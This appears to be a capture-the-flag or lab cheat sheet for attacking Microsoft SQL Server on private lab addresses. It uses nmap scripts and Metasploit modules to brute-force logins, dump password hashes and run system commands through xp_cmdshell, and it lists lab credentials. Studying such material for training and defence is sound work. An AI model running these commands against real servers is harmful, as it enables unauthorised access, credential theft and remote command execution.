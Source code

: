 #### MSSQL Nmap scripts

```bash
john@kali> ip a
john@kali> nmap 10.2.18.228

# 1. Identify MSSQL Database Server
john@kali> nmap 10.2.18.228 -p 1433 -sV

# 2. Find information from the MSSQL server with NTLM.
john@kali> nmap 10.2.18.228 -p 1433 --script ms-sql-ntlm-info

# 3. Enumerate all valid MSSQL users and passwords
john@kali> nmap 10.2.18.228 --script ms-sql-brute --script-args='userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/100-common-passwords.txt'

# 4. Identify 'sa' user password
john@kali> nmap 10.2.18.228 --script ms-sql-empty-password

# 5. Execute MSSQL query to extract sysusers
john@kali> nmap 10.2.18.228 --script ms-sql-query --script-args mssql.username=sa,ms-sql-query.query="select * from master..syslogins"

# 6. Dump MSSQL users hashes
john@kali> nmap 10.2.18.228 --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria

# 7. Execute a command on MSSQL to retrieve the flag. (The flag is located inside C:\flag.txt)
john@kali> nmap 10.2.18.228 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd='more C:\flag.txt'
```

Credentials : `admin:anamaria` `dbadmin:bubbles1` `auditor:jasmine1`

#### MSSQL Metasploit

```bash
john@kali> ip a
john@kali> nmap 10.2.17.166
john@kali> nmap 10.2.17.166 -p 1433 -sV

# 1. Discover valid users and their passwords
john@kali> msfconsole
msf6> use scanner/mssql/mssql_login
msf6> set username ""
msf6> set user_file /root/Desktop/wordlist/common_users.txt
msf6> set pass_file /root/Desktop/wordlist/100-common-passwords.txt
msf6> set rhosts 10.2.17.166
msf6> set verbose false
msf6> run

# 2. Enumerate MSSQL configuration
msf6> use admin/mssql/mssql_enum
msf6> set rhosts 10.2.17.166

# 3. Enumerate all MSSQL logins
msf6> use admin/mssql/mssql_enum_sql_logins
msf6> set rhosts 10.2.17.166
msf6> run

# 4. Execute a command on the target machine
msf6> use admin/mssql/mssql_exec
msf6> set rhosts 10.2.17.166
msf6> set cmd whoami
msf6> run
```